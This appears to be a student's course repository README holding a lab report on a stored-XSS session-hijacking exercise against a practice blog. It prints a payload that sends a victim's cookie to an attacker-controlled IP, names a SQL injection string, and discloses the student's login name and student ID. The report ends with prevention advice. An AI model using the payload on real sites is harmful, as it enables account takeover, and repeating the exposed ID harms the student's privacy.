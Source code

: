 # Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

**Name**: Mahitha Kalaga

**Email**: [kalagam1@udayton.edu](kalagam1@udayton.edu)

![Mahitha's headshot](../images/mahi.jpeg)

## Repository Information

Repository's URL: [https://github.com/kalagam1/waph-kalagam1.git](https://github.com/kalagam1/waph-kalagam1.git)

This is a private repository for Mahitha Kalaga to store all the code from the course. The organization of this repository is as follows.

### Labs

[Hands-on exercises in Lectures](labs)

- [Lab 0](labs/lab0): Development Environment Setup
- [Lab 1](labs/lab1): Foundations of the Web
- [Lab 2](labs/lab2): Front-end Web Development
- [Lab 3](labs/lab3): Secure Web Application Development in PHP/MySQL
- [Lab 4](labs/lab4): A Secure Login System with Session Authentication

### Hackathons

- [Hackathon 1](hackathon1): Cross-site Scripting Attacks and Defenses
- [Hackathon 2](hackathon2): SQL Injection Attacks
- [Hackathon 3](hackathon3): Session Hijacking Attacks and Defenses

### Individual Projects

- [Individual Project 1](https://github.com/kalagam1/kalagam1.github.io): Front-end Web Development with a Professional Profile Website and API Integration on github.io cloud service

## Report

## The Hackathon's overview

In Hackathon 3, I explored Cross-Site Scripting (XSS) and session hijacking vulnerabilities to understand how attackers can gain unauthorized access without credentials. I began by injecting a malicious JavaScript payload into the blog application's comment section, which, when clicked by a logged-in user, silently transmitted their session cookie to a remote server I controlled. By retrieving the stolen cookie from the server logs, I was able to hijack the victim's session by manually injecting the session ID into my browser, gaining access without logging in. To test further vulnerabilities, I attempted SQL injection on various input fields post-hijack, but found the system to be resilient—likely due to parameterized queries. This exercise demonstrated the critical importance of input sanitization, secure cookie attributes, and strong session management in protecting web applications.

Hackathon's URL: [Hackathon3](https://github.com/kalagam1/waph-kalagam1/tree/main/hackathon3)

Demo's URL: [Demo](https://github.com/kalagam1/waph-kalagam1/tree/main/hackathon3/kalagam1-waph-hackathon3.mp4)

## Task 1: The Attack

### Step 1: Attacker

To initiate the attack, I accessed the blog application, which allows users to post comments without any form of input validation or sanitization. Recognizing this vulnerability, I crafted a cross-site scripting (XSS) payload intended to capture the session cookie of a logged-in user. The injected payload looked like this:

a onclick=window.location=http://192.168.56.102/?cookie=+document.cookie>click here/a 

![level 0](../images/h31.jpeg)

This script, when clicked by an authenticated user, would send their session cookie to the attacker’s server. The comment was submitted and publicly displayed on the blog.

### Step 2: Victim

Acting as the victim, I proceeded to log into the blog application using the UD credentials; kalagam1 and the corresponding 9-digit student ID (101831115). Upon successful authentication, I navigated to the comment section where the attacker’s malicious payload had been posted.

![level 0](../images/h32.jpeg)

![level 0](../images/h33.jpeg)

![level 0](../images/h31.jpeg)

### Step 3: Victim

Upon encountering the injected comment, I interacted with the hyperlink under the assumption that it was legitimate. This action triggered the malicious JavaScript embedded within the link, which immediately executed and sent the session cookie associated with the authenticated session to the attacker’s server.

![level 0](../images/h31.jpeg)

![level 0](../images/h34.jpeg)

### Step 4: Attacker

On the attacker’s end, I had configured a listener to capture incoming HTTP requests. Once the victim interacted with the malicious link, the browser issued a request containing the session cookie to the attacker’s server. I verified the success of this action by inspecting the server logs, which revealed the session identifier (PHPSESSID). With this information, I was now equipped to impersonate the victim. To see the cookie information the terminal runs the following command:
Cat /var/log/apache2/access.log

![level 0](../images/h35.jpeg)

### Step 5: Attacker

To hijack the victim’s session, I opened the blog application in a new incognito browser session and did not log in. Instead, I opened the browser’s developer tools and manually added the stolen PHPSESSID cookie under the Application tab. After refreshing the page, the application treated me as the logged-in user, granting access without requiring authentication credentials. This demonstrated a complete session hijack using only the stolen cookie.

![bonus](../images/h36.jpeg)

![bonus](../images/h37.jpeg)

### Bonus: 

Following the successful session hijacking, I explored the application to assess whether it was also vulnerable to SQL injection. I tested the login and other input fields with common SQL injection payloads such as ' OR '1'='1, but the application rejected these inputs or returned appropriate error messages. This behavior suggests that the backend is likely using parameterized queries or has implemented input validation, rendering SQL injection attempts ineffective in this case.

![bonus](../images/h3bonus1.jpeg)

![bonus](../images/h3bonus2.jpeg)

## Task 2: Understanding and Prevention

#### Why the Attack Worked

This attack was possible due to two primary vulnerabilities. First, the blog application lacked proper input sanitization, allowing the injection of executable JavaScript into the comment section. This made it susceptible to cross-site scripting (XSS). Second, the application stored session cookies without setting security flags such as HttpOnly and Secure, making them accessible via JavaScript. The attacker was able to steal this session data and reuse it to bypass authentication completely.

#### How This Can Be Prevented

As a developer, there are several things I’d do differently to prevent this. First, I’d make sure all user inputs—especially in comment sections—are properly sanitized and encoded before being displayed on the site. That would stop most XSS attacks. I’d also set the session cookies to have the HttpOnly, Secure, and SameSite flags so they can’t be accessed through scripts or passed around between sites. Finally, I’d implement proper session expiration and maybe even rotate the session ID on login/logout to reduce the window of attack. These are all practices we’ve been following in our WAPH projects. 
